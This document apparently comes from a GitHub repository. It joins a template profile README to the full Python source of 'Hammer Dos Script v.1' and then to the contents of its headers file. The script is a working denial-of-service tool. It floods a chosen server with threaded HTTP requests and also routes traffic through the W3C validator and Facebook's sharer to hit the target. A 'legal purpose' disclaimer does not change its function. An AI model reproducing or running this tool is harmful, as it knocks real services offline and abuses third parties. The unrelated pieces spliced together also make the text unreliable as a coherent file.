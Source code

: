 - 👋 Hi, I’m @Unbrela
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Unbrela/Unbrela is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->#!/usr/bin/python3
# -*- coding: utf-8 -*-

# python 3.3.2+ Hammer Dos Script v.1
# by Can Yalçın
# only for legal purpose


from queue import Queue
from optparse import OptionParser
import time,sys,socket,threading,logging,urllib.request,random

def user_agent():
	global uagent
	uagent=[]
	uagent.append("Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0) Opera 12.14")
	uagent.append("Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:26.0) Gecko/20100101 Firefox/26.0")
	uagent.append("Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.7 (KHTML, like Gecko) Comodo_Dragon/16.1.1.0 Chrome/16.0.912.63 Safari/535.7")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1")
	return(uagent)


def my_bots():
	global bots
	bots=[]
	bots.append("http://validator.w3.org/check?uri=")
	bots.append("http://www.facebook.com/sharer/sharer.php?u=")
	return(bots)


def bot_hammering(url):
	try:
		while True:
			req = urllib.request.urlopen(urllib.request.Request(url,headers={'User-Agent': random.choice(uagent)}))
			print("\033[94mbot is hammering...\033[0m")
			time.sleep(.1)
	except:
		time.sleep(.1)


def down_it(item):
	try:
		while True:
			packet = str("GET / HTTP/1.1\nHost: "+host+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((host,int(port)))
			if s.sendto( packet, (host, int(port)) ):
				s.shutdown(1)
				print ("\033[92m",time.ctime(time.time()),"\033[0m \033[94m <--packet sent! hammering--> \033[0m")
			else:
				s.shutdown(1)
				print("\033[91mshut<->down\033[0m")
			time.sleep(.1)
	except socket.error as e:
		print("\033[91mno connection! server maybe down\033[0m")
		#print("\033[91m",e,"\033[0m")
		time.sleep(.1)


def dos():
	while True:
		item = q.get()
		down_it(item)
		q.task_done()


def dos2():
	while True:
		item=w.get()
		bot_hammering(random.choice(bots)+"http://"+host)
		w.task_done()


def usage():
	print (''' \033[92m	Hammer Dos Script v.1 http://www.canyalcin.com/
	It is the end user's responsibility to obey all applicable laws.
	It is just for server testing script. Your ip is visible. \n
	usage : python3 hammer.py [-s] [-p] [-t]
	-h : help
	-s : server ip
	-p : port default 80
	-t : turbo default 135 \033[0m''')
	sys.exit()


def get_parameters():
	global host
	global port
	global thr
	global item
	optp = OptionParser(add_help_option=False,epilog="Hammers")
	optp.add_option("-q","--quiet", help="set logging to ERROR",action="store_const", dest="loglevel",const=logging.ERROR, default=logging.INFO)
	optp.add_option("-s","--server", dest="host",help="attack to server ip -s ip")
	optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80")
	optp.add_option("-t","--turbo",type="int",dest="turbo",help="default 135 -t 135")
	optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
	opts, args = optp.parse_args()
	logging.basicConfig(level=opts.loglevel,format='%(levelname)-8s %(message)s')
	if opts.help:
		usage()
	if opts.host is not None:
		host = opts.host
	else:
		usage()
	if opts.port is None:
		port = 80
	else:
		port = opts.port
	if opts.turbo is None:
		thr = 135
	else:
		thr = opts.turbo


# reading headers
global data
headers = open("headers.txt", "r")
data = headers.read()
headers.close()
#task queue are q,w
q = Queue()
w = Queue()


if __name__ == '__main__':
	if len(sys.argv) < 2:
		usage()
	get_parameters()
	print("\033[92m",host," port: ",str(port)," turbo: ",str(thr),"\033[0m")
	print("\033[94mPlease wait...\033[0m")
	user_agent()
	my_bots()
	time.sleep(5)
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((host,int(port)))
		s.settimeout(1)
	except socket.error as e:
		print("\033[91mcheck server ip and port\033[0m")
		usage()
	while True:
		for i in range(int(thr)):
			t = threading.Thread(target=dos)
			t.daemon = True  # if thread is exist, it dies
			t.start()
			t2 = threading.Thread(target=dos2)
			t2.daemon = True  # if thread is exist, it dies
			t2.start()
		start = time.time()
		#tasking
		item = 0
		while True:
			if (item>1800): # for no memory crash
				item=0
				time.sleep(.1)
			item = item + 1
			q.put(item)
			w.put(item)
		q.join()
		w.join()
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 115
Connection: keep-alive
